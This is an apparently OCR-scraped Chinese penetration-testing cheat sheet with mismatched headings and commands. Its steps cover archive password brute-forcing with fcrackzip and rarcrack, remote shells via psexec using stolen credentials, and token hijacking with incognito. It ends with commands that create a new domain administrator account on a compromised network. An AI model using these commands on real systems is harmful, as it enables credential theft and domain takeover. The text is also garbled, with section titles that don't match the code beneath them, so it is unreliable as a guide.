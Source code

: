 1\. 破解 windows 密码。用 hashdump7 或者 mimikatz 导出 windows hash 为 1.txt

```
rarcrack 123.zip --threads 10 --type zip
```

```
下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
```

2\. 破解 Linux shadow 文件

```
psexec.exe \\\\192.168.198.138 -u administrator -p 123456 cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEnycC54vFTTmVIKojjKSXGNWdsYyWj96sNpTx0OHOdOGfkXYxqT2iaiag/640?wx_fmt=png)

**压缩包爆破**
---------

**1.Fcrackzip**

```
#查看本机可以利用的token
incognito.exe list\_tokens -u  
#查看远程机器可以利用劫持的token
incognito.exe -h 192.168.198.138 -u administrator -p 123456 list\_tokens -u
```

```
#调用远程机器的本地系统权限的cmd.exe，查看可以劫持的权限
incognito.exe -h 192.168.198.138 -u administrator -p 123456 execute -c "NT AUTHORITY\\SYSTEM" cmd.exe
```

**2.rarcrack**

该软件用于暴力破解压缩文件的密码，但仅支持 RAR, ZIP, 7Z 这三种类型的压缩包  
执行命令: rarcrack 文件名 -threads 线程数 -type rar|zip|7z

```
#域控账号登陆过普通主机，可以尝试拿到域低权限账号利用incognito工具劫持域控身份
#查找被攻击的计算机中是否有DC的token
incognito.exe -h 192.168.200.11 -u admin -p 123123 list\_tokens -u  
#利用DA的token创建新的DC，调用DC的cmd.exe
incognito.exe -h 192.168.200.11 -u admin -p 123123 execute -c "XY\\ADMINISTRATOR" cmd.exe  
#执行创建DC命令
net user hh 123.com /add /domain
net group "domain admins" hh /add /domain
```

如果允许出现错误。那么可以执行 sudo apt-get install libxml2-dev libxslt-dev 进行修复。  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOKFic4mLSBRmBTA8qDFMA8WnOibn6kyy4Wl2Bia9qM7X0yWBzgDsp8vkQ/640?wx_fmt=png)

**shell 控制连接**

通过端口爆破 445 得到账号密码。没有开 3389 没法直接登录，此时借用 psexec 直接调用 cmd 登录。也可以通过 incognito 劫持 token，如果有域管理员 token 劫持 DC，创建一个域管理员出来
